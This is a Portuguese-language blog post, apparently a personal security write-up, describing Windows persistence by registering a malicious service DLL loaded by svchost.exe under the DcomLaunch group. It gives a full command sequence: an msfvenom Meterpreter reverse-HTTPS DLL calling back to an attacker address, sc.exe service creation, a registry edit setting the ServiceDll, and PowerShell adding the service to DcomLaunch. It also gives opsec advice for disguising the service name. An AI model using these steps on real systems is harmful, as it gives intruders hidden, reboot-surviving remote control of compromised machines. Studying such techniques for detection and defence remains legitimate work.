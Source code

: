 ## Persistencia com ServiceDll atravez do svchost.exe
>__

Baseado totalmente no artigo: https://www.ired.team/offensive-security/persistence/persisting-in-svchost.exe-with-a-service-dll-servicemain

"This is a quick lab that looks into a persistence mechanism that relies on installing a new Windows service, that will be hosted by an svchost.exe process."

Recentemente eu estava estudando algumas tecnicas de persistencia em sistemas windows e me deparei com esse artigo mencionado a cima. 

Nesse artigo é apresentado uma tecnica de persistencia que cria um ```service``` setando o ```binpath``` como ```svchost.exe -k DcomLaunch```, o que informará ao ```Service Control Manager``` que queremos que nosso service seja carregado pelo svchost em um grupo de serviços chamado ```DcomLaunch```.

Com o grupo DcomLaunch setado, o svchost vai consultar a registry key ```HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost```  que tem a lista de services que estão nesse grupo, e depois carregara os services com suas respectivas ```ServiceDll``` consultando outra registry key ```HKLM\SYSTEM\CurrentControlSet\services\<SVC-NAME>\Parameters / ServiceDll``` associada a cada service.

E é nesse ultimo passo que podemos adicionar uma dll maliciosa para ela ser executada pelo próprio service. Isso possibilita a execução de implants/droppers, varias tecnicas de process-injection ou qualquer codigo que seja possivel executar em uma dll.

(vale a pena ressaltar que essa persistencia só é possivél com privilégios elevados no alvo, como algum user domain admin ou algo do tipo)

##### Depois da introção vamos para a parte prática. 

A ideia é a seguinte, vamos partir do contexto de que você ja tenha uma shell com high-privilege na maquina alvo, então a primeira coisa é garantir que você mantenha o acesso caso algo dê errado com a shell atual...


### 1 - Persistence service dll
>__

- Aqui vem a parte em que você precisa preparar sua dll. Assim como existe "service binary" também podemos usar um "service dll". No artigo é usado um template que você pode altera-lo mas para exemplo vou usar uma dll gerada pelo msfvenom.

```
└─$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.0.1 lport=4321 EXITFUNC=thread  --smallest -f dll -o evil.dll
```
Os exemplos de comandos são de uma shell meterpreter, então as flags e as strings usadas podem variar dependendo do c2 ou da shell que você usar.


### 2 - Create EvilSvc Service
>__

- Agora criamos o service com o ```binpath``` apontando para o svchost usando o grupo DcomLaunch.

![createevilsvc](https://github.com/geleiaa/blog-repo/blob/main/imgs/createevilsvc.png)

```
sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
```

- depois de criar o service verifique se esta tudo certo

![verifyevilsvc](https://github.com/geleiaa/blog-repo/blob/main/imgs/verifyevilsvc.png)

```
sc.exe query EvilSvc
```

- opsec: O nome do service precisa ser algo que não levante suspeita e também vale a pena adicionar alguma descrição para que fique mais credivél. Você pode tirar ideias e se basear em ttps do mitre sobre esse tema.


### 3 - Modify EvilSvc - Specify ServiceDLL Path
>__

- Aqui vamos editar a registry key associada ao EvilSvc para adicionar a dll maliciosa ```HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\```.

![setpathsvcdll](https://github.com/geleiaa/blog-repo/blob/main/imgs/setpathsvcdll.png)

```
reg.exe add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\EvilSvc.dll /f
```

- verifique se o path foi setado

![verifysvcdllpath](https://github.com/geleiaa/blog-repo/blob/main/imgs/verifysvcdllpath.png)

```
reg.exe queryHKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll 
```


### 4 - Group EvilSvc with DcomLaunch
>__

- Nessa parte adicionamos o EvilSvc ao grupo DcomLaunch alterando a registry key ```HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost /v DcomLaunch```. No artigo é feito direto pelo registry editor mas como só temos acesso via cli, vamos usar powershell pra isso.

![setsvcdcom](https://github.com/geleiaa/blog-repo/blob/main/imgs/setsvcdcom.png)


```
// path para a reg key
$path = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost"

// pega a lista de services
$current = Get-ItemProperty -Path $path -Name DcomLaunch

// add o EvilSvc na lista
$newList = $current.DcomLaunch + "EvilSvc"

// redefine os valores da var DcomLaunch
Set-ItemProperty -Path $path -Name DcomLaunch -Value $newList
```
Você pode juntar isso numa oneliner e executar como na imagem acima.

- Fazendo dessa forma é possivel preservar a lista default do grupo DcomLaunch. Se for feito com o reg.exe ele vai sobrescrever os valores podendo causar falha em alguns services.


- Depois verifique se o EvilSvc foi adicionado

![verifysvcindcom](https://github.com/geleiaa/blog-repo/blob/main/imgs/verifysvcindcom)

```
reg.exe query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v DcomLaunch
```

#### Agora com tudo feito a persistencia está pronta. Como o service foi criado com "start auto", quando houver algum reboot o service será iniciado e carregado com o grupo DcomLaunch.

- msf session
![getsession](https://github.com/geleiaa/blog-repo/blob/main/imgs/getsession.png)

- svc running with rundll32
![svcrun1](https://github.com/geleiaa/blog-repo/blob/main/imgs/svcrun1.png)

- svc dll path
![svcrun2](https://github.com/geleiaa/blog-repo/blob/main/imgs/svcrun2.png)





